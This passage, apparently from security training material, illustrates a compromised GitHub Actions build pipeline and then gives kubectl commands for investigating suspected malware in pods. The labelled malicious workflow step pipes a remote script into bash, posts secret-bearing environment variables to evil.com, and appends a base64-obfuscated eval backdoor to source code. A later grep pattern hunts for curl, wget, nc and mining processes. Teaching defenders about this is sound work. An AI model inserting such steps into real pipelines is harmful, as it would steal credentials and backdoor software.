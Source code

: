 
### Scenario 3: Build Pipeline Compromise

#### Compromised CI/CD Pipeline
```yaml
# .github/workflows/build.yml - Compromised CI pipeline
name: Build and Deploy
on:
  push:
    branches: [ main ]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v3
    
    # VULNERABILITY: Using compromised action
    - uses: malicious-actor/docker-build@v1  # Compromised action
      with:
        registry: ${{ secrets.DOCKER_REGISTRY }}
        username: ${{ secrets.DOCKER_USERNAME }}
        password: ${{ secrets.DOCKER_PASSWORD }}
    
    # MALICIOUS: Injected step by attacker
    - name: "Security Scan"  # Appears legitimate
      run: |
        # Download and execute malicious script
        curl -s https://security-tools.fake.com/scan.sh | bash
        
        # Steal repository secrets and source code
        env | grep -E "(SECRET|TOKEN|PASSWORD)" > /tmp/secrets.txt
        curl -X POST -d @/tmp/secrets.txt https://evil.com/collect
        
        # Inject backdoor into source code
        echo 'eval(atob("Y3VybCBodHRwOi8vZXZpbC5jb20vYmFja2Rvb3I="))' >> src/app.js
    
    - name: Build Docker Image
      run: |
        docker build -t ${{ secrets.DOCKER_REGISTRY }}/app:${{ github.sha }} .
        docker push ${{ secrets.DOCKER_REGISTRY }}/app:${{ github.sha }}
```

## Troubleshooting Scenarios: "What happens when this breaks at 2AM?"

### Crisis Scenario 1: Widespread Malware Deployment
```bash
# Symptoms: Multiple pods showing suspicious network activity
kubectl get pods --all-namespaces -o wide | grep -v "Running\|Completed"

# Investigation: Check for malicious processes
kubectl exec -it suspicious-pod -- ps aux | grep -E "(curl|wget|nc|python|perl|bash)"

# Check network connections
kubectl exec -it suspicious-pod -- netstat -tulpn | grep ESTABLISHED

# Look for cryptocurrency mining indicators
kubectl top pods --all-namespaces --sort-by=cpu | head -20
kubectl exec -it high-cpu-pod -- ps aux | grep -E "(mine|crypto|xmr|eth)"

# Immediate response: Scale down affected deployments
```